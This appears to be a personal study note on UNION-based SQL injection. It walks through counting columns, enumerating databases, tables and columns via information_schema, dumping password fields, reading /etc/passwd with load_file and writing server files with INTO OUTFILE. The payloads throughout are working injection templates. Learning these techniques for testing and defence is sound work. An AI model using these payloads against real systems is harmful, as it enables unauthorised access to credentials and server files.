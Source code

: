 ```yaml
---
tags: [security, sqli, web]
---
```


They can be used to combine of output of two SELECT statements
This method only works if the number of columns in both the statements are the same

````sql
SELECT * FROM login 
UNION 
SELECT 1, 2, 3;
````

In place of numbers we can use SQL functions

````sql
SELECT * FROM login 
UNION 
SELECT database(), user(), version();
````

#### Finding Number of Columns

1. <u>Brute Force Approach</u>

We can try different number of columns till we find the result that works
union select 1# (Error)
union select 1,2# (Error)

2. <u>ORBER BY Clause</u>

We cause the query `ORBER BY 20#` and see if we get error if so there are less an 20 columns
Then we try 10. If no error which means there are either exactly 10 or more than 10 columns
No we can try values between 10 and 20 till be find the no. of columns

 > [!NOTE]
 > Not all columns from the DB are going to be present in output. Only the fields that are fetched from the DB can be used for fetching information

#### Finding Tables Names and Column Values

1. <u>View DB Names</u>

The "schema_name" column consist of the DB names

````sql
SELECT schema_name 
FROM information_schema.schemata;
````

So we can used "schema_name" to find all the DB

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), schema_name, version() 
FROM information_schema.schemata;#
````

2. <u>View Table Names in DB</u>

The "table_name" column consist of the table name

````sql
SELECT table_name 
FROM information_schema.tables 
WHERE table_schema="<db-name>";
````

Now we can view all the tables in the DB using the following

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), table_name, version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

The `group_concat()` function will show all the results as an single string

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), group_concat(table_name), version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

3. <u>Table Column Names</u>

The "column_name" filed consist of the column names of the table

````sql
SELECT column_name 
FROM information_schema.columns 
WHERE table_name='<table-name>';
````

The columns of the table can be viewed as follows

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), column_name, version() 
FROM information_schema.columns 
WHERE table_name='<table-name>';#
````

4. <u>View Data from Columns</u>

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, id, 8, password, column_name, version 
FROM <table-name>;#
````

#### Reading and Writing Files to Server

1. <u>Reading Data from File</u>

Load File can be used to load files on Server

````sql
UNION 
SELECT 1, load_file('/etc/passwd'), null, null;#
````

2. <u>Writing Data to File</u>

Outfile command can be used to write data to a file on the server

````sql
UNION 
SELECT null, 'example text', null, null INTO OUTFILE '/var/www/example.txt';#
````

For reading and writing to the server we need to have the right permissions so only works if the permissions are miss configured
